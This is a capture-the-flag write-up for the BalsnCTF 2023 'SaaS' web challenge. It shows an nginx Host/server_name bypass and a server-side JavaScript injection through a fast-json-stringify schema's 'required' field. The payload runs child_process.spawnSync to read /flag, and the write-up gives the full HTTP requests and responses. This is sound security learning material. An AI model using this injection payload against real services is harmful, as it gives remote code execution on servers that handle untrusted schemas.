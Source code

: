 ### SaaS - balsnctf 2023 - web

![Challenge Description](2023-10-08_19-10.png "Challenge Description")

### Running the challenge locally

```
docker-compose up -d
```

You can now access the challenge at http://localhost:8787/

### Writeup

Looking at default.conf we have the following:
```
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

To access the backend server we need to make the server name end in .saas and the host be easy++++++. To do this we can send the following HTTP request to the server:
```
GET http://.saas/ HTTP/1.1
Host: easy++++++
[...]
```
The server now responds with the following:
```
HTTP/1.1 200 OK
[...]

{"pong":"hi"}
```

Now taking a look at index.js we have two endpoints to explore, /register and /whowilldothis/:uid . With register we can provide a json validation schema that later will be used at /whowilldothis/:uid . After researching a bit about fast-json-stringify-compiler I've stumbled uppon the following report:
- https://hackerone.com/reports/532667
  
So I went for the Server Side JavaScript Code Injection. I've used the required property of the schema so we could get the result of the code injection reflected in the error. To exploit this vulnerability first we need to upload the malicious schema using the register endpoit:
```
POST http://.saas/register HTTP/1.1
Host: easy++++++
[...]
Content-Type: application/json

{
 "type": "object",
 "properties": {
   "Hello": {
     "type": "string"
    }
  },
 "required": ["'+(function(){return process.mainModule.require('child_process').spawnSync('cat', ['/flag']).stdout;})()+'"]
}
```
The server sends the following response:
```
HTTP/1.1 200 OK
[...]

{"route":"/whowilldothis/410efeff-b5d4-466c-9e6b-93407e6a4774"}
```
Now we can access this endpoint and retrieve the flag:
```
GET http://.saas/whowilldothis/410efeff-b5d4-466c-9e6b-93407e6a4774 HTTP/1.1
Host: easy++++++
[...]
```
The server responded with the following:
```
HTTP/1.1 500 Internal Server Error
[...]

{"statusCode":500,"error":"Internal Server Error","message":"\"BALSN{N0t_R3al1y_aN_u3s_Ca53}\n\" is required!"}
```

### Author source code and solution

- https://github.com/cjiso1117/My-CTF-Challenges/tree/main/2023-BalsnCTF/SaaS